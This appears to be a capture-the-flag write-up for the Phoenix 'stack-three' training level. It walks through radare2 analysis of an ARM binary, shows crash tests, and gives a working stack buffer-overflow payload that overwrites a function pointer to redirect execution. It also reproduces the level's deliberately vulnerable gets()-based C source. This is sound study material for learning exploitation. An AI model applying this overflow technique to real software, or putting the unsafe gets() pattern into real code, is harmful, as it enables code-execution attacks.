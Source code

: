 # Phoenix Stack3
## Static Analysis
##### Analyse the binary
`r2 -A stack-three`
##### Result

  > calling function pointer @ 0x105d0
> Congratulations, you've finished phoenix/stack-three :-) Well done!

##### Learning
In this challenge there were only a few Stack Variables..

```
[0x0001049c]> pd 5 @main
|           ;-- $a:
/ (fcn) main 120
|   main (FILE *stream);
|           ; var int local_54h @ fp-0x54
|           ; var int local_50h @ fp-0x50
|           ; var int local_8h @ fp-0x8
|           ; arg FILE *stream @ r3
```
It was not immediately obvious with `Radare2` which stack variable held the C char buffer.  But if you looked closer at `the Offset` values it would give you a clue that `local_8h` was in fact a `Struct`.  This `Struct` was made up of two values; a char buffer (64) and an integer pointer (8).

```
?vi 0x50 - 0x8
72

After finishing the challenge, you could verify this against the code:

72 = 64 char buffer + 8 for int pointer!

struct {
  char buffer[64];
  volatile int (*fp)();
} locals;
```
##### Familiarity
```
[0x0001049c]> i
file     stack-three
format   elf
arch     arm
endian   little
```
##### Run the code
```
$ ./stack-three
DDDDDDDDD       <- program waiting for input here
function pointer remains unmodified :~( better luck next time!

python -c 'print "A"* 66'

$ ./stack-three
<  66 x 0x41 ('A') >
calling function pointer @ 0x4141
Segmentation fault

// Pro way to pass values to gets()
python -c 'print "A"*(65)' | ./stack-three
calling function pointer @ 0x41
Segmentation fault
```  
##### Exports
```
[0x0001049c]> iE
[Exports]
084 0x000005ec 0x000105ec GLOBAL   FUNC  136 main
090 0x000005d0 0x000105d0 GLOBAL   FUNC   28 complete_level
```
##### Symbols
```
[0x0001049c]> is~FUNC
[Symbols]
090 0x000005d0 0x000105d0 GLOBAL   FUNC   28 complete_level
```
##### Seek and Print complete_level
```
[0x0001049c]> s 0x000105d0


[0x000105d0]> pdf
|           ;-- $a:
/ (fcn) sym.complete_level 24
|   sym.complete_level ();
|           0x000105d0      00482de9       push {fp, lr}
|           0x000105d4      04b08de2       add fp, sp, 4
|           0x000105d8      08009fe5       ldr r0, loc._d_11           ; [0x105e8:4]=0x10680 loc._d_10 ; const char *s
|           0x000105dc      9cffffeb       bl sym.imp.puts             ; int puts(const char *s)
|           0x000105e0      0000a0e3       mov r0, 0                   ; int status
\           0x000105e4      a3ffffeb       bl sym.imp.exit             ; void exit(int status)
```
##### Answer
```
$ python -c 'print "A"*(64) + "\xd0\x05\x01\x00"' | ./stack-three

calling function pointer @ 0x105d0
Congratulations, you've finished phoenix/stack-three :-) Well done!

```
##### Source code
```
* The aim is to change the contents of the changeme variable to 0x0d0a090a
*
* When does a joke become a dad joke?
*   When it becomes apparent.
*   When it's fully groan up.
*
*/

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
 "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
 printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
 exit(0);
}

int main(int argc, char **argv) {
 struct {
   char buffer[64];
   volatile int (*fp)();
 } locals;

 printf("%s\n", BANNER);

 locals.fp = NULL;
 gets(locals.buffer);

 if (locals.fp) {
   printf("calling function pointer @ %p\n", locals.fp);
   fflush(stdout);
   locals.fp();
 } else {
   printf("function pointer remains unmodified :~( better luck next time!\n");
 }

 exit(0);
}
```
